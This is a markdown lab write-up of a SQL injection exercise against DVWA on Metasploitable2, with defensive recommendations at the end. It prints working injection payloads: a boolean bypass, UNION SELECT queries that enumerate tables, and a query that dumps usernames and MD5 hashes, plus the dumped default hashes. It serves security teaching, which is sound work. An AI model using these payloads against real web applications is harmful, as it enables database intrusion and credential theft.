






# Exercise 10 — SQL Injection Attack (DVWA)

**Date:** 20/03/2026
**Category:** Web Attacks
**Tools:** DVWA, Firefox, MySQL
**Attacker:** Kali Linux — 192.168.56.102
**Target:** Metasploitable2 — 192.168.1.100 (DVWA on port 80)

---

## Objective
Exploit a SQL injection vulnerability in DVWA to extract usernames
and password hashes from the backend MySQL database, demonstrating
how web application input validation failures lead to full database
compromise.

---

## Background
SQL Injection (SQLi) is consistently ranked in the OWASP Top 10 as
one of the most critical web application vulnerabilities. It occurs
when user-supplied input is embedded directly into a SQL query without
sanitisation, allowing an attacker to manipulate the query logic.

A single SQLi vulnerability can expose an entire database — including
credentials, personal data, and application secrets.

---

## Lab Setup

DVWA (Damn Vulnerable Web Application) is pre-installed on
Metasploitable2. Accessed via Kali's Firefox browser at
`http://192.168.1.100/dvwa`. Security level set to **Low** to
demonstrate unsanitised input handling.

### Screenshot — DVWA Dashboard


---

## Part A — Authentication Bypass

The SQL Injection module presents a User ID input field. A classic
boolean-based injection payload was submitted:
```
1' OR '1'='1
```

**How it works:** The single quote `'` terminates the original SQL
string. `OR '1'='1'` appends a condition that is always true,
causing the query to return all records instead of just the one
matching ID=1.

**Original query (intended):**
```sql
SELECT * FROM users WHERE user_id = '1'
```

**Injected query (actual):**
```sql
SELECT * FROM users WHERE user_id = '1' OR '1'='1'
```

**Result:** All 5 user records returned — admin, Gordon Brown,
Hack Me, Pablo Picasso, Bob Smith.

### Screenshot — All Users Dumped via Boolean Injection


---

## Part B — Database Enumeration

A UNION SELECT injection was used to extract the database name:
```
1' UNION SELECT null,database()#
```

**How it works:** UNION SELECT appends a second query to the
original. `database()` is a MySQL function that returns the
current database name. The `#` comments out the rest of the
original query.

**Result:** Database name `dvwa` returned in the Surname field
of the injected row.

### Screenshot — Database Name Extracted


Table names were then extracted from MySQL's internal
`information_schema`:
```
1' UNION SELECT null,table_name FROM information_schema.tables WHERE table_schema='dvwa'#
```

**Result:** Two tables found — `guestbook` and `users`.

### Screenshot — Tables Discovered


---

## Part C — Credential Dump

The `users` table was targeted to extract all usernames and
password hashes:
```
1' UNION SELECT user,password FROM users#
```

**Result:** Full credential dump — 5 usernames with MD5 hashed
passwords:

| Username | Hash |
|---|---|
| admin | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy | 5f4dcc3b5aa765d61d8327deb882cf99 |

### Screenshot — Password Hashes Dumped


---

## Part D — Hash Identification

The hashes are MD5 format — identified by their 32-character
hexadecimal format. MD5 is a broken hashing algorithm with no
salt, making it trivially crackable with modern tools.

Admin's hash was verified in Kali:
```bash
echo -n "password" | md5sum
```

**Result:** `5f4dcc3b5aa765d61d8327deb882cf99` — confirming
`admin:password`. Both admin and smithy share the same hash,
meaning they use the same password.

### Screenshot — Hash Cracked in Kali


Full offline hash cracking with hashcat is covered in Exercise 12.

---

## Attack Chain Summary
```
Input field accepts unsanitised data
    → Boolean injection returns all users
        → UNION SELECT extracts database name
            → information_schema reveals table names
                → Credential dump exposes all usernames and hashes
                    → MD5 hashes cracked to plaintext passwords
                        → Full application compromise
```

---

## Real-World Relevance
SQL injection was behind some of the largest breaches in history
including Yahoo (3 billion accounts), LinkedIn, and Adobe. The
attack requires no special tools — just a browser and knowledge
of SQL syntax.

**What makes this dangerous:**
- No authentication required to extract credentials
- Entire database exposed through a single input field
- MD5 hashes cracked instantly with rainbow tables or hashcat
- Credentials likely reused across other systems

**OWASP Top 10:** SQLi is listed under A03:2021 — Injection,
one of the most critical web application security risks.

---

## Recommendation
- Use parameterised queries / prepared statements — never
  concatenate user input directly into SQL
- Implement input validation and whitelist acceptable characters
- Use a Web Application Firewall (WAF) to detect and block
  injection patterns
- Never store passwords as unsalted MD5 — use bcrypt, scrypt,
  or Argon2 with unique salts
- Apply principle of least privilege to database accounts —
  the web app user should not have SELECT on all tables
